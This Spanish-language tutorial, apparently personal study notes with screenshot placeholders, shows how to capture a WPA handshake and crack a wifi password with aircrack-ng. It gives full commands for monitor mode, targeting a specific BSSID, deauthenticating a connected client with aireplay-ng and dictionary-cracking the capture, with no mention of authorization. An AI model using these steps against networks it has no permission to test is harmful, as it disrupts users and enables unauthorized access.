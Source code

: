 Lo primero será instalar aircrack-ng:
![[Pasted image 20240612232539.png]]

Y ahora es necesario activar el modo monitor en nuestra interfaz de red, fijándonos en el nombre de la interfaz wifi:
![[Pasted image 20240612232544.png]]

Ahora ejecutamos este comando para convertir la antena wifi en modo monitor:
```bash
airmon-ng start wlp1s0
```

![[Pasted image 20240612232551.png]]
Y ahora si ejecutamos un ifconfig veremos como la interfaz wifi ha cambiado:
![[Pasted image 20240612232601.png]]

Y ahora haremos un escaneo de las redes disponibles con este comando:
```bash
airodump-ng wlp1s0mon
```

![[Pasted image 20240612232611.png]]

![[Pasted image 20240612232617.png]]

Vamos a elegir el wifi llamado Red: 
![[Pasted image 20240612232623.png]]

Y ahora con su BSSID vamos a listar los devices que están conectados a esta red:
```bash
airodump-ng -c 1 --bssid 2C:99:24:69:4F:D9 -w captura wlp1s0mon
```
![[Pasted image 20240612232634.png]]
![[Pasted image 20240612232638.png]]

Y ahora es cuando tenemos que obtener el handshake; y para ello tenemos que generar tráfico al mismo tiempo, por lo que desde otra ventana vamos a generar tráfico:
```bash
# Con el -a cogemos el nombre del BSSID y con -c cogemos la estación.
aireplay-ng -0 9 -a 2C:99:24:69:4F:D9 -c 3E:AF:E4:72:E6:A0 wlp1s0mon 
```

![[Pasted image 20240612232646.png]]
Y una vez lanzado esto, ya tenemos el handshake:
![[Pasted image 20240612232657.png]]

Ahora veremos que tenemos una serie de archivos en el actual directorio, que los usaremos más adelante:
![[Pasted image 20240612232705.png]]

Una vez tenemos esto, solo necesitamos ejecutar este otro comando pasándole el handshake, seleccionando el fichero cap y un diccionario:
```bash
aircrack-ng -b 2C:99:24:69:4F:D9 -w diccionario.txt captura-02.cap
```
![[Pasted image 20240612232807.png]]

Y vemos que nos encuentra la contraseña gracias a que se encontraba dentro del diccionario:
![[Pasted image 20240612232812.png]]

Por último, para restablecer nuestra antena y quitar el modo monitor, lo haríamos de la siguiente forma:
```bash
sudo airmon-ng stop wlan0 # O el nombre de la interfaz que corresponda.
```